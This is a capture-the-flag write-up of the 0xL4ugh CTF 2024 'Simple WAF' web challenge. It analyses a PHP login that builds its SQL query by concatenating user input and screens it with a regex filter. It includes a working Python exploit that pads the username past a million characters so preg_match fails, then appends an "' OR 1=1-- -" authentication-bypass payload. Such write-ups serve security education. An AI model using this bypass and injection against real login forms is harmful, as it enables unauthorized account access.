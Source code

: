 # Simple WAF

## Table of Contents

1. [Overview](#overview)
2. [Background](#background)
3. [Enumeration](#enumeration)
4. [Exploitation](#exploitation)
5. [Conclusion](#conclusion)

## Overview

- Solved by: @.h0ps
- Contributor: @Colonneil
- 42 solves / 198 points
- Difficulty: Medium
- Author: abdoghazy
- Overall difficulty for me (From 1-10 stars): ★★★☆☆☆☆☆☆☆

## Background

i whitelisted input values so, i think iam safe : P

[Link](http://20.115.83.90:1339/)

![](https://github.com/siunam321/CTF-Writeups/blob/main/0xL4ugh-CTF-2024/images/Pasted%20image%2020240211160535.png)

## Enumeration

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/0xL4ugh-CTF-2024/images/Pasted%20image%2020240211160703.png)

In here, we can login as an account.

Although this page has 2 links: "Forget password?" and "Sign up", they both return HTTP status "404 Not Found":

![](https://github.com/siunam321/CTF-Writeups/blob/main/0xL4ugh-CTF-2024/images/Pasted%20image%2020240211160848.png)

In the login page, we can try to enter some dummy credentials:

![](https://github.com/siunam321/CTF-Writeups/blob/main/0xL4ugh-CTF-2024/images/Pasted%20image%2020240211161017.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/0xL4ugh-CTF-2024/images/Pasted%20image%2020240211161026.png)

When we entered an incorrect credential, it'll pop up an alert box with text "Wrong Creds".

**Burp Suite HTTP history:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/0xL4ugh-CTF-2024/images/Pasted%20image%2020240211161119.png)

When we clicked the "Login" button, it'll send a POST request to `/` with parameter `username`, `password`, and `login-submit`.

**In this challenge, we can download a [file](https://github.com/siunam321/CTF-Writeups/blob/main/0xL4ugh-CTF-2024/Web/Simple-WAF/simple_waf_togive.zip):**
```shell
┌[siunam♥Mercury]-(~/ctf/0xL4ugh-CTF-2024/Web/Simple-WAF)-[2024.02.11|16:06:45(HKT)]
└> file simple_waf_togive.zip 
simple_waf_togive.zip: Zip archive data, at least v2.0 to extract, compression method=deflate
┌[siunam♥Mercury]-(~/ctf/0xL4ugh-CTF-2024/Web/Simple-WAF)-[2024.02.11|16:06:48(HKT)]
└> unzip simple_waf_togive.zip 
Archive:  simple_waf_togive.zip
  inflating: init.sh                 
   creating: src/
  inflating: src/db.php              
  inflating: src/index.php           
  inflating: Dockerfile              
  inflating: init.db                 
```

Let's read through this application's source code!

Luckily, this application is really simple.

**Logic of endpoint `/` POST request:**
```php
[...]
if(isset($_POST['login-submit']))
{
    if(!empty($_POST['username'])&&!empty($_POST['password']))
    {
        $username=$_POST['username'];
        $password=md5($_POST['password']);
        if(waf($username))
        {
            die("WAF Block");
        }
        else
        {
            $res = $conn->query("select * from users where username='$username' and password='$password'");
                                                                    
            if($res->num_rows ===1)
            {
                echo "0xL4ugh{Fake_Flag}";
            }
            else
            {
                echo "<script>alert('Wrong Creds')</script>";
            }
    }

    }
    else
    {
        echo "<script>alert('Please Fill All Fields')</script>";
    }
}
[...]
```

When we send a POST request with parameter `username`, `password`, and `login-submit`, it'll **check our `username` value against a "WAF"** (Web Application Firewall). After that, it'll execute a SQL statement to select a user from table `users` with our provided `username` and `password`.

However, **the SQL statement didn't use prepared statement**. Hence, **it's vulnerable to SQL injection**.

That being said, **we should be able to bypass the authentication with a simple SQL injection payload**.

**But before we do that, let's check out the `waf()` function:**
```php
[...]
function waf($input)
{
    if(preg_match("/([^a-z])+/s",$input))
    {
        return true;
    }
    else
    {
        return false;
    }
}
[...]
```

In here, our `username` is **being checked against a regular expression pattern** with PHP built-in function **`preg_match()`**.

In the regular expression pattern, it only allows the input is starts with 1 or more lowercase character `a` through `z`, and excluding newline characters (`s` modifier).

Hmm... **How can we bypass the WAF to inject our SQL injection payload**??

Based on my experience, **PHP is a weird language, sometimes it can do really weird stuff**, like let's say the built-in function `preg_match()`.

According to [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp#length-error-bypass), when a **very large valid input** is being parsed to `preg_match()`, **it'll just choked to death and can't process it**. Hence, we can bypass the regular expression check by just sending a large valid input!

## Exploitation

**Armed with above information, we can write a simple Python script to send a large valid input, and append our SQL injection payload!**
```python
#!/usr/bin/env python3
import requests

def main():
    url = 'http://20.115.83.90:1339/'
    payload = 'A' * 1000001
    payload += '\' OR 1=1-- -'
    data = {
        'username': payload,
        'password': 'foobar',
        'login-submit': ''
    }

    response = requests.post(url, data=data)
    responseText = response.text
    if '0xL4ugh{' not in responseText:
        print('[-] The exploit failed...')
        exit(0)

    flag = responseText.split('\n')[0].strip()
    print(f'[+] The exploit worked! Here\'s the flag:\n{flag}')

if __name__ == '__main__':
    main()
```

```shell
┌[siunam♥Mercury]-(~/ctf/0xL4ugh-CTF-2024/Web/Simple-WAF)-[2024.02.11|16:49:12(HKT)]
└> python3 exploit.py
[+] The exploit worked! Here's the flag:
0xL4ugh{0ohh_You_Brok3_My_Wh1te_List!!!}
```

- **Flag: `0xL4ugh{0ohh_You_Brok3_My_Wh1te_List!!!}`**

## Conclusion

What we've learned:

1. PHP built-in function `preg_match()` bypass